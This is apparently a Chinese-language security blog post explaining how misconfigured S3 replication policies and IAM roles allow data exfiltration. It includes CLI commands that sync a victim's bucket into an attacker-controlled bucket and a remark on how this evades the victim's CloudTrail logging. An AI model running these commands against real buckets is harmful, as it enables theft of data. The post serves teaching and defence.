 ```yaml
---
author: Sunny Tsai
title: "[Day 15] 天堂雲端 - Data Exfiltration on S3"
date: 2023-09-28
math: true
tags: [
    "cloud",
    "S3",
    "DLP"
]
categories: [
    "2023鐵人賽"
]
series: ["2023鐵人賽-天堂雲端之從開始到接管"]
---
```

# AWS S3 複寫策略(Replication Policies)
AWS S3 replication policy - [使用 Amazon S3 複寫在 AWS 區域內和區域間複寫資料](https://aws.amazon.com/tw/getting-started/hands-on/replicate-data-using-amazon-s3-replication/)。S3是一個高彈性、全受管、低成本的雲端服務，而複寫策略(Replication Policies)可以使得S3 bucket在**不同的bucket或是不同帳戶下的bucket**間複寫物件(object)。

注：如果兩個bucket要進行複寫，兩個bucket都要啟用版本控制。

# Misconfiguration
配置錯誤引發的資料外洩，以下是權限都打開的配置。

## Trust policy
在定義role的時候設定trust policy
![](https://imgur.com/Za1mztf.png)
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Service": [
                    "s3.amazonaws.com",
                    "batchoperations.s3.amazonaws.com"   # 支援S3批次操作
                ]
            },
            "Action": "sts:AssumeRole"
        }
    ]
}
```

## AWS IAM roles
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "s3:ListBucket",
                "s3:GetReplicationConfiguration",
                "s3:PutInventoryConfiguration",
                "s3:InitiateReplication"
            ],
            "Resource": "arn:aws:s3:::*"
        },
        {
            "Effect": "Allow",
            "Action": [
                "s3:GetObjectVersionForReplication",
                "s3:GetObjectVersionAcl",
                "s3:GetObjectVersionTagging"
            ],
            "Resource": "*"
        },
        {
            "Effect": "Allow",
            "Action": [
                "s3:ReplicateObject",
                "s3:ReplicateDelete",
                "s3:ReplicateTags"
            ],
            "Resource": "*"
        }
    ]
}
```


-----


# AWS Cli
模擬攻擊者複寫s3 bucket所有object方法

### list object - 確認有s3:ListBucket權限
```shell
% aws s3 ls {AWS_BUCKET_NAME}
```

### Get bucket ACL - 查看Object ACL權限
```
% aws s3api get-bucket-acl --bucket {AWS_BUCKET_NAME}
```

### Download Object To Local - 嘗試下載檔案
```
% aws s3 sync s3://{AWS_BUCKET_NAME} .
```

### Sync Object To another S3 bucket - 把s3 bucket所有資料都複寫到攻擊者創造或感染的s3 bucket
```
% aws s3 sync s3://{SOURCE_BUCKET} s3://{DESTINATION_BUCKET}
```

注：S3 GetObject調用會記錄在受害者的Cloudtrail數據事件中，但是S3 PutObject調用會記錄在攻擊者的Cloudtrail中，如此，受害者無法在AWS Cloudtrail中看到副本的S3複寫過程。
